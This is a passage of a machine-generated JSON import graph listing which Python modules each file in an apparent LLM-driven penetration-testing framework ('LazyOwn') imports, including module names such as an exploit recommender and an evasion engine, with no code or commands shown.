"imports", "source": "skills/heartbeat.py", "target": "timeline_narrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/claudemd_rules.py", "target": "constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/config_bridge.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/config_bridge.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/config_bridge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/config_bridge.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/config_bridge.py", "target": "constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/constants.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/constants.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/constants.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "pty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/executor.py", "target": "pty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/hermes_sync.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/hermes_sync.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/hermes_sync.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/hermes_sync.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/hermes_sync.py", "target": "constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "claudemd_rules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "config_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "hermes_sync"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "mcp.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "mcp.server.stdio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "output_compactor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/output_compactor.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/output_compactor.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hermes-lazyown/output_compactor.py", "target": "constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "chromadb"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "chromadb.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "numpy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "sentence_transformers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "lazyown_parquet_db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "lazyown_groq_agents"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/hive_mind.py", "target": "lazyown_llm"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_automapper.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_campaign.py", "target": "modules.lesson_ingestor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_claudemd.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_context.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_context.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "sessions_watcher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "event_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "session_state"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "timeline_narrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "watchdog.events"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_daemon.py", "target": "watchdog.observers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_facts.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "lazyown_parquet_db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "lazyown_facts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "lazyown_parquet_db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "lazyown_llm"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_groq_agents.py", "target": "pprint"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_hooks.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_hooks.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_hooks.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_hooks.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_hooks.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_hooks.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_hooks.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_hooks.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_hooks.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "lazyown_facts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_llm.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "pty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "mcp.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "mcp_lazy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "mcp.server.stdio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_mcp_helpers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "event_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "event_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "mcp_agent_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "session_state"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "session_state"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "recommender"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "timeline_narrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "timeline_narrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_llm"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_llm"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_automapper"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.exploit_recommender"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.evasion_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.evasion_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.auto_pivot"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.dashboard_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.exploit_recommender"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.unified_dashboard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.ai_exploit_chain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_mentions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", 